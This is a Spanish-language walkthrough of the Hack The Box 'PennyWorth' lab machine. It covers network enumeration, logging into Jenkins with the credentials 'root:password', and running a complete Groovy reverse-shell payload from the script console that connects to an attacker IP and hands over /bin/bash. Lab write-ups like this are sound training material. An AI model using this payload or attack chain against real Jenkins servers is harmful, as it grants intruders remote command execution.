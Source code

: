 ```yaml
---
title: PennyWorth
layout: page
permalink: /HTB_PennyWorth
---
```


<h2 class="amarillo">PennyWorth</h2>
<div id="imgs" style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/pennyworth.png" alt="under" oncontextmenu="return false;">
</div>

Comenzamos encendiendo la máquina y obtenemos la dirección IP 10.129.245.27, le enviaremos un paquete con ping para saber si la máquina está encendida.

```bash
❯ ping -c 5 10.129.245.27
PING 10.129.245.27 (10.129.245.27) 56(84) bytes of data.
64 bytes from 10.129.245.27: icmp_seq=1 ttl=63 time=1204 ms
64 bytes from 10.129.245.27: icmp_seq=2 ttl=63 time=286 ms
64 bytes from 10.129.245.27: icmp_seq=3 ttl=63 time=120 ms
64 bytes from 10.129.245.27: icmp_seq=4 ttl=63 time=120 ms
64 bytes from 10.129.245.27: icmp_seq=5 ttl=63 time=1865 ms
--- 10.129.245.27 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4040ms
rtt min/avg/max/mdev = 120.039/719.062/1864.712/700.349 ms, pipe 2
```

Vemos un TTL de 63, así que estamos frente a una máquina Linux.
<h2 class="amarillo">Enumeración</h2>

Comenzamos haciendo un escaneo rápido y sigiloso usando nmap para enumerar todo el rango de puertos en busca de servicios expuestos:

```bash
nmap -p --open -sS --min-rate 5000 -vvv -n -Pn 10.129.245.27 -oG allPorts
```
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/namp.png" alt="under" oncontextmenu="return false;">
</div>

Vemos un único puerto abierto `8080` que lo normal es que sea un servicio web. Para saber un poco más de información lanzamos un escaneo exhaustivo para identificar la versión y servicio con nmap para este puerto usando una serie de scripts básicos de reconocimiento:

```bash
nmap -sCV -p8080 10.129.245.27 -oN targeted
```
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/nmap2.png" alt="under" oncontextmenu="return false;">
</div>

No hay mucha información, pero siempre viene bien probar con la herramienta `whatweb`

```bash
whatweb 10.129.245.27:8080
```
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/whatweb.png" alt="under" oncontextmenu="return false;">
</div>

<h2 class="amarillo">Explotación</h2>

Whatweb nos revela información más interesante como `Jenkins 2.289.1` , `Jetty 9.4.39.v20210325` y una ruta 'login?from=2F'. Así que probamos acceder a la web:
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/web.png" alt="under" oncontextmenu="return false;">
</div>

Por defecto nos va a decir error ya que debemos proporcionar el puerto `8080` en la URL.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/web2.png" alt="under" oncontextmenu="return false;">
</div>

Aun proporcionando el puerto donde esta el servicio web tenemos problemas, entonces pondremos la URL encontrada por whatweb.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/login.png" alt="under" oncontextmenu="return false;">
</div>

Nos encontramos con un panel de Login, y al saber ya la version y servicio ejecutados en la máquina encontramos que tiene unas cuantas vulnerabilidades.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/jetty.png" alt="under" oncontextmenu="return false;">
</div>

Dentro de estas se encuentra que las credenciales del panel de Login es 'root:password'.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/intrusionweb.png" alt="under" oncontextmenu="return false;">
</div>

Una vez logueados encontramos `Groovy Script` y que podemos escribir nuestros propios códigos.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/intrusionweb2.png" alt="under" oncontextmenu="return false;">
</div>

En el siguiente <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md">enlace</a> podemos encontrar algunos payloads:

**Groovy Payload**
```groovy
String host="10.10.16.84";
int port=443;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new
Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())
{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());whi
le(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/web3.png" alt="under" oncontextmenu="return false;">
</div>

Podemos ver que los payloads son ejecutados por el Administrator y los ejecuta el Servidor. Probamos a cargar nuestro payload:
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/revshell.png" alt="under" oncontextmenu="return false;">
</div>

Y nos ponemos en escucha con `nc` y recibimos una shell:
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/metidos.png" alt="under" oncontextmenu="return false;">
</div>

Buscamos la flag y habremos completado la máquina.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/flag.png" alt="under" oncontextmenu="return false;">
</div>
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/pwn.png" alt="under" oncontextmenu="return false;">
</div>
---

Esta publicación ha sido creada como soporte en mi formación académica y crecimiento profesional.

© Juan David Garcia Acevedo (aka liandd)
